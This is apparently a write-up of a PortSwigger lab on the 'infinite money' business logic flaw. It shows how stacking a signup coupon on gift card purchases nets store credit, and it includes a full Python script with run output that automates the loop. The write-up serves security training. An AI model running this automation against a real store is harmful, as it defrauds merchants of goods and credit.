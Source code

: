 # Infinite money logic flaw | Dec 20, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money), you'll learn: Infinite money logic flaw! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075600.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075619.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075626.png)

In here, **we can redeem some gift cards.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075751.png)

In the bottom of the home page, we can sign up to their newsletter.

**Let's sign up:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075844.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220075851.png)

**Now we can use `SIGNUP30` code for our coupon.**

**Let's try to buy the leather jacket:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080117.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080129.png)

**Then go to `/cart` page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080204.png)

As you can see, we've added that product to our cart.

**Also, we can try to use the `SIGNUP30` coupon:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080247.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080309.png)

It successfully applied the coupon.

**Let's remove that product and try to buy a product:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080523.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080543.png)

It works normally.

**Now, since the application has a function that allows users to redeem gift cards, why not try to buy a gift card?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080846.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080920.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220080944.png)

As you can see, we now have a gift card code: `du7uEebi5e`.

**Try to redeem it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220081036.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220081058.png)

**Our store credits added 10 dollars!**

Hmm... How can we abuse this functionality...

Ah! Remember we have the `SIGNUP30` coupon right?

**What if I apply that coupon the the gift card?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082016.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082038.png)

**Now the gift card worth `$7.00`. Let's place the order:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082113.png)

**Then redeem the gift card:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082247.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220082259.png)

**Oh! Our store credit went from `$89.43` to `$99.43`, and we only used `$7.00` to buy the gift card, which we have added `$3.00` to our store credit!**

**We have infinite money now! Let's write a python script to automate this process:**
```py
#!/usr/bin/env python3

import requests
from bs4 import BeautifulSoup
from threading import Thread
import re
import argparse

def sendRequests(url, cookie, csrfToken):
    buyGiftCardData = {
        'productId': '2',
        'redir': 'PRODUCT',
        'quantity': 1
    }

    applyCouponData = {
        'csrf': csrfToken,
        'coupon': 'SIGNUP30'
    }

    placeOrderData = {
        'csrf': csrfToken
    }

    # Buy a gift card
    requests.post(url + '/cart', cookies=cookie, data=buyGiftCardData)

    # Apply SIGNUP30 coupon
    requests.post(url + '/cart/coupon', cookies=cookie, data=applyCouponData)

    # Place order and fetch gift card code
    orderText = requests.post(url + '/cart/checkout', cookies=cookie, data=placeOrderData, allow_redirects=True).text

    # Extract the value of gift card code
    soup = BeautifulSoup(orderText, 'html.parser')
    # Find all <td> tags
    tableTd = soup.find_all('td')
    for td in tableTd:
        # The length of the code is always 10 characters long
        if len(td.text.strip()) == 10:
            # Extract the value of the code
            giftCardCode = td.text.strip()

    redeemGiftCardData = {
        'csrf': csrfToken,
        'gift-card': giftCardCode
    }

    # Redeem gift card
    requests.post(url + '/gift-card', cookies=cookie, data=redeemGiftCardData)

    # Check store credit
    myaccountText = requests.get(url + '/my-account', cookies=cookie).text
    soup = BeautifulSoup(myaccountText, 'html.parser')
    # Find <strong> tag
    strongTag = soup.find('strong')
    # Find pattern 123.00
    storeCredit = float(re.search(r'([0-9]+\.[0-9]{2})', strongTag.text).group(0))

    if storeCredit >= 935.90:
        print('[+] You now can buy the leather jacket WITH the SIGNUP30 coupon.')
        print(f'[+] Store credit: ${str(storeCredit)}')
        exit()
    else:
        # \r to clean previous line
        print(f'[*] Current store credit: ${str(storeCredit)}', end='\r')

def main():
    # Argument parser
    parser = argparse.ArgumentParser(description='Exploit infinite money logic flaw in PortSwigger business logic vulnerabilities lab.')
    parser.add_argument('-u', '--url', metavar='URL', required=True, help='Full URL of the lab. E.g: https://0a9b002b0469da23c5c03cf3003e007b.web-security-academy.net')
    parser.add_argument('-c', '--cookie', metavar='Cookie', required=True, help='Session cookie of your user wiener. E.g: Efi6qVmgThhBsbkiTeugTPMQQ2DtofbC')
    parser.add_argument('-t', '--token', metavar='CSRF_Token', required=True, help='CSRF token. E.g: yVr8Bdqr24wuRU6e6IjZCkdgEhfY3s3c')
    args = parser.parse_args()

    url = args.url
    cookie = {'session': args.cookie}
    csrfToken = args.token

    while True:
        # Create each thread to run function sendRequests(url, cookie, csrfToken)
        thread = Thread(target=sendRequests, args=(url, cookie, csrfToken))
        # Start the thread
        thread.start()
        # Wait for previous thread finish
        thread.join()

if __name__ == '__main__':
    main()
```

**Now, let the script runs, until we have at least `$1337.00` store credit:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10]
└─# python3 exploit.py -u https://0a9b002b0469da23c5c03cf3003e007b.web-security-academy.net -c Efi6qVmgThhBsbkiTeugTPMQQ2DtofbC -t yVr8Bdqr24wuRU6e6IjZCkdgEhfY3s3c
[*] Current store credit: $102.43
[...]
[+] You now can buy the leather jacket WITH the SIGNUP30 coupon.
[+] Store credit: $1129.43
```

**Now the store credit reaches above `$935.90`, let's buy the leather jacket with the coupon!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102223.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102240.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Business-Logic-Vulnerabilities/BLV-10/images/Pasted%20image%2020221220102252.png)

We did it!

# What we've learned:

1. Infinite money logic flaw